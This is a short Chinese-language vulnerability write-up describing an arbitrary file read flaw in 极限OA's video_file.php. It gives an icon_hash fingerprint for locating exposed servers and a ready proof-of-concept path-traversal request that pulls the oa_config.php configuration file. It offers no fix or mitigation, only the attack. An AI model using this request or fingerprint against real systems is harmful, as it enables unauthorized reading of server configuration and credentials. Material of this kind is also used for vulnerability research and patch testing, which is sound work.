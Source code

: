 # 极限OA video_file.php 任意文件读取漏洞

## 漏洞描述

极限OA video_file.php存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感文件

## 漏洞影响

<a-checkbox checked>极限OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1967132225"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1657611799572-0a7316e9-7d7d-4c8c-8e5c-891904bc474f-20220712154642026.png)

验证POC

```php
/general/mytable/intel_view/video_file.php?MEDIA_DIR=../../../inc/&MEDIA_NAME=oa_config.php
```

![img](../../../.vuepress/public/img/1657611948243-17fb2a06-755a-4e18-8e12-36aef770134c.png)